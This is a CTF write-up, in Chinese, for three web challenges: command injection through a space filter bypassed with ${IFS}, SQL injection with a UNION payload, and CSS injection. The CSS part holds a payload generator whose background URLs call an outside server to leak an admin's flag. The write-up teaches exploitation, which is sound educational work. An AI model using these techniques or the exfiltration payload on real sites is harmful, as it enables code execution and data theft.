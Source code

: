 # Web

## fakelog

### description

這是一個測試用 log 產生器。試著找到漏洞取得檔案，並試著成功 RCE！！

### solution

透過觀看 `/howtogen` Line14 可以發現 gen.py 存在 LFI

```python=
#!/usr/local/bin/python3
import sys

if __name__ == '__main__':
    if len(sys.argv) < 2:
        print("no argument")
        sys.exit()

    magic_num = int(sys.argv[1]) if sys.argv[1].isdigit() else sys.argv[1]
    if magic_num == 0:
        print("0 is not allowed")
        sys.exit()
    while magic_num != 1:
        with open(f"fakelog/{magic_num % 6 if isinstance(magic_num, int) else magic_num}", "r", encoding="utf-8") as fd:
            print(fd.read())
        magic_num = 3 * magic_num + 1 if magic_num % 2 else magic_num // 2
```

接下來看 `/hint` Dockerfile 可以知道主程式在 `/app/main.py`

```Dockerfile=
FROM python:3.10
RUN curl -sSL https://install.python-poetry.org | POETRY_HOME=/etc/poetry python3 -
WORKDIR /app

COPY pyproject.toml poetry.lock .
RUN /etc/poetry/bin/poetry config virtualenvs.create false && \
    /etc/poetry/bin/poetry install
COPY . .
ARG FLAG
RUN echo $FLAG > /app/flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 8 | head -n 1`
USER daemon
ENTRYPOINT ["python", "/app/main.py"]
```

透過 LFI 去看 `/app/main.py` 的運作邏輯

```python=
@app.route('/gen', methods=['GET', 'POST'])
def get_input():
    message = None
    if request.method == 'POST':
        user_input = request.form['user_input']
        if " " in user_input:
            result = "evil input"
        else:
            result = subprocess.run(
                f"python gen.py {user_input}", shell=True, capture_output=True, text=True).stdout.replace('\\n', '')
        message = f"result: \n{result}"
    return render_template('generate.html', message=message)
```

可以看到是透過 subprocess 去跑的，同時有著 cmdi，但有空白的話就會被當成 evil input，這可以透過 ${IFS} 去繞，於是就能 RCE 了。

https://github.com/Vincent550102/My-CTF-Challenge/blob/main/scist-2023-final/fakelog/exploit.sh

---

## fakelog-sql

### description

我為我的 fakelog 產生器架了一個資料庫… 應該會更安全吧

### solution

可以看到 Database 有一個明顯的 sqli

```python=
    def get_fakelog(self, log_id):
        try:
            cursor = self.conn.execute(
                f"SELECT * FROM fakelog WHERE id = {log_id}")
            fakelogs = cursor.fetchall()
            return fakelogs
        except Exception as e:
            return str(e)
```

再觀察 `gen.py` 若是以字串傳入就會直接被 database 使用

```python=
# get fake log from database
results = database.get_fakelog(
	magic_num % 6 if isinstance(magic_num, int) else magic_num)
```

另外會檢查第二個回傳值是否是以 FAKE 開頭，可以使用 union attack 構造 payload

![](https://hackmd.io/_uploads/rJfXoEpYn.png)
![](https://hackmd.io/_uploads/SkIEi46Fn.png)

https://github.com/Vincent550102/My-CTF-Challenge/blob/main/scist-2023-final/fakelog-sql/exploit.sh

---

## Cross-Style Sheets

### description

我做了一個留言板，使用者可以插入任意 html 還能分享給別人，而且為了防止 XSS 我用了最新版本的 DOMpurify 擋掉了壞壞 JavaScript，這個網站看起來非常安全><。

用前端技巧取得管理員的 flag 吧！

flag 格式：SCIST{[a-zA-Z0-9()_]+}

### solution

正常使用了最新版 DOMpurify 基本上可以暫時先不考慮 XSS 了。

觀察到 Flag 會以 `<p name="hereisflag" value="{{ username }}">Welcome, {{ username }}</p>` 出現在頁面上，然後題目名稱提示了 CSS，我們就想到可以使用 [CSS injection](https://blog.huli.tw/2022/09/29/css-injection-1/) 去一個一個 leak admin 的 flag。

```python=
temp = """p[name="hereisflag"][value^="scist{}"] {{background: url(http://ocrserver.vincent55.tw:7787?q=scist{});}} """
payload = ""
for c in char_set:
	payload += temp.format(c, c)
print(payload)
```

https://github.com/Vincent550102/My-CTF-Challenge/blob/main/scist-2023-final/CrossStyleSheets/exploit.py
